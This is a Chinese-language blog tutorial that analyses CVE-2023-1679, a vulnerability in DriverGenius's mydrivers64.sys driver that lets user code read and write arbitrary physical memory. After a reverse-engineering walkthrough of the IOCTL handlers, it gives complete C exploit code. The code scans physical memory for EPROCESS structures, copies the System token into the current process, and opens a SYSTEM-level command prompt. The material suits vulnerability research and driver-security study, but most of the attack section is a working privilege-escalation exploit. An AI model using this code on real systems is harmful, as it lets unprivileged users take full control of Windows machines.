

# 【第 18 話】CVE-2023-1679 研究－任意讀寫物理記憶體

## 文章大綱
在[【第 17 話】從物理記憶體竄改 EPROCESS Token](/asset/第%2017%20話) 了解物理記憶體相關的背景知識後，這篇我們要研究 CVE-2023-1679，利用任意讀寫物理記憶體的漏洞來達成提權。


## 介紹 CVE-2023-1679
首先來看看 [CVE-2023-1679](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1679) 在 MITRE 的描述。

A vulnerability classified as critical was found in DriverGenius 9.70.0.346. This vulnerability affects the function 0x9C406104/0x9C40A108 in the library mydrivers64.sys of the component IOCTL Handler. The manipulation leads to memory corruption. An attack has to be approached locally. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-224236.

直接用列點的方式抓重點。
- 軟體：[DriverGenius](https://www.driver-soft.com/) 9.70.0.346
- 元件：mydrivers64.sys
- 漏洞位置：IOCTL Handler 的 IoControlCode 0x9C406104、0x9C40A108
- 影響：Memory Corruption

從我的 GitHub 下載目標驅動程式檔案 [mydrivers64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1679/bin/mydrivers64.sys)。對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 mydrivers64.sys 的數位簽章資訊，是 2017 年 1 月 3 日的簽章。


## 逆向分析
IDA 開啟 mydrivers64.sys 後分析 `DriverEntry`，找到 IOCTL Handler 的位址與 Symbolic Link Name `MyDrivers0_0_1`。



### 任意讀取物理記憶體
跟進去分析 Dispatcher，先看 IoControlCode 0x9C406104，程式呼叫一個函數，我把它取名為 `ArbitraryReadPA`，其中參數帶著使用者的輸入。


跟進去分析 `ArbitraryReadPA`，程式根據使用者輸入，決定要讀取的單位及讀取的數量，在映射目標物理記憶體到虛擬記憶體後以 1/2/4 bytes 為單位複製到 OutputBuffer。


### 任意寫入物理記憶體
接著分析 0x9C406108，程式呼叫一個函數，我把它取名為 `ArbitraryWritePA`，其中參數帶著使用者的輸入。


跟進去分析 `ArbitraryWritePA`，程式根據使用者輸入，決定要讀取的單位及讀取的數量，在映射目標物理記憶體到虛擬記憶體後以 1/2/4 bytes 為單位複製到 OutputBuffer。


## 攻擊腳本
### 原理
透過驅動程式的漏洞，我們現在可以任意讀寫物理記憶體。接下來我們要從物理記憶體中找到目標的 EPROCESS 並竄改 Token 達成提權。


由於攻擊腳本是跑在應用層，沒辦法取得 Page Table 的位址。所以我們得掃過整個物理記憶體，用 EPROCESS 的 UniqueProcessId 和 ImageFileName 當特徵來找到目標 EPROCESS 的位址。

具體來說，就是先找到 System 的 EPROCESS 並讀取 Token，然後找到目標 Process 的 EPROCESS 並竄改 Token 成 System 的 EPROCESS Token。


### 寫程式
程式分為三個部分，分別是任意讀漏洞、任意寫漏洞、攻擊實作。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2023-1679)。

#### 任意讀漏洞
將任意讀的漏洞包成一個函數，其中可以輸入參數
- pa：要讀取的物理記憶體位址
- size：讀取的大小
- output：存讀取的內容的 Buffer
```c
struct DATA_READ_PA
{
    PVOID PhysicalAddress;
    DWORD unit;
    DWORD size;
};

VOID ReadPA_0x9C406104(PVOID pa, DWORD size, CHAR* output)
{
    DWORD dwWrite;
    DATA_READ_PA data;
    data.PhysicalAddress = pa;
    data.unit = 1;
    data.size = size;
    DeviceIoControl(hDevice, 0x9C406104, &data, sizeof(data), output, data.size * data.unit, &dwWrite, NULL);
}
```

#### 任意寫漏洞
將任意寫的漏洞包成一個函數，其中可以輸入參數
- pa：要寫入的物理記憶體位址
- size：寫入的大小
- value：寫入的內容的 Buffer

```c
struct DATA_WRITE_PA
{
    PVOID PhysicalAddress;
    DWORD unit;
    DWORD size;
    DWORD64 value;
};

VOID WritePA_0x9C40A108(PVOID pa, DWORD size, DWORD64 value)
{
    DWORD dwWrite;
    DATA_WRITE_PA data;
    data.PhysicalAddress = pa;
    data.unit = 1;
    data.size = size;
    data.value = value;
    DeviceIoControl(hDevice, 0x9C40A108, &data, sizeof(data), NULL, 0, &dwWrite, NULL);
}
```

#### 攻擊實作
整個攻擊實作的邏輯如下。
1. 迴圈掃描整個物理記憶體
2. 利用任意讀的漏洞一次讀 0x10000 的物理記憶體
3. 確認讀取的物理記憶體中是否包含 System 或當前 Process 的 EPROCESS
4. 利用任意寫的漏洞竄改當前 Process 的 EPROCESS Token 的物理記憶體
5. 彈出有 system 權限的 cmd

```c
int main(int argc, char* argv[])
{
    // 取得 Device 的 Handle
    hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Get Driver Handle Error with Win32 error code: %x\n", GetLastError());
        return 0;
    }

    // 1. 迴圈掃描整個物理記憶體
    PVOID read_address = (PVOID)0;
    DWORD64 SystemToken = 0, SystemEprocess = 0, TargetEprocess = 0;
    const DWORD UNIQUE_PROCESS_ID_OFFSET = 0x2e0, TOKEN_OFFSET = 0x358, IMAGE_FILE_NAME_OFFSET = 0x450;
    while (1)
    {
        // 2. 利用任意讀的漏洞一次讀 0x10000 的物理記憶體
        CHAR output[0x10000] = {0};
        ReadPA_0x9C406104(read_address, 0x10000, output);

        // 3. 確認讀取的物理記憶體中是否包含 System 或當前 Process 的 EPROCESS
        for (int offset = 0; offset < 0x10000 - IMAGE_FILE_NAME_OFFSET; offset++)
        {
            // 透過 UniqeuProcessId 和 ImageFileName 檢查是不是 System
            if (!SystemEprocess && *(DWORD64*)(output + offset + UNIQUE_PROCESS_ID_OFFSET) == 4 &&
                !memcmp((CHAR*)(output + offset + IMAGE_FILE_NAME_OFFSET), "System", 6))
            {
                SystemEprocess = (DWORD64)read_address + offset;
                SystemToken = *(DWORD64*)(output + offset + TOKEN_OFFSET);
                if ((SystemToken & 0xffff000000000000) != 0xffff000000000000)
                {
                    SystemEprocess = 0;
                    SystemToken = 0;
                }
                else
                {
                    printf("System EPROCESS PA: %llx, System Token: %llx\n\n", SystemEprocess, SystemToken);
                }
            }

            // 透過 UniqeuProcessId 和 ImageFileName 檢查是不是當前 Process
            if (!TargetEprocess && *(DWORD64*)(output + offset + UNIQUE_PROCESS_ID_OFFSET) == GetCurrentProcessId() &&
                !memcmp((CHAR*)(output + offset + IMAGE_FILE_NAME_OFFSET), "CVE-2023-1679.exe", 14))
            {
                TargetEprocess = (DWORD64)read_address + offset;
                printf("Current Process EPROCESS PA: %llx\n\n", TargetEprocess);
            }
        }

        // 如果找到 System 和當前 Process 的 EPROCESS 的 PA 就跳出迴圈
        if (SystemEprocess && TargetEprocess)
            break;

        read_address = (PVOID)((DWORD64)read_address + 0x10000);
    }

    // 4. 利用任意寫的漏洞竄改當前 Process 的 EPROCESS Token 的物理記憶體
    WritePA_0x9C40A108((PVOID)((DWORD64)TargetEprocess + TOKEN_OFFSET), 8, SystemToken);

    // 5. 彈出有 system 權限的 cmd
    system("cmd.exe");
    return 0;
}
```


## 測試
開啟 VM 載入 [mydrivers64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1679/bin/mydrivers64.sys)，接著執行 [CVE-2023-1679.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1679/bin/CVE-2023-1679.exe)，攻擊過程可能要等一小段時間，之後就會跳出 system 權限的 cmd。


## 參考資料
- [CVE-2023-1679 MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1679)
- [zeze-zeze/WindowsKernelVuln](https://github.com/zeze-zeze/WindowsKernelVuln/tree/master/CVE-2023-1679)
- [CVE-2020-12138 Exploit Proof-of-Concept, Privilege Escalation in ATI Technologies Inc. Driver atillk64.sys](https://h0mbre.github.io/atillk64_exploit/#)
- [Part 19: Kernel Exploitation -> Logic bugs in Razer rzpnk.sys](https://fuzzysecurity.com/tutorials/expDev/23.html)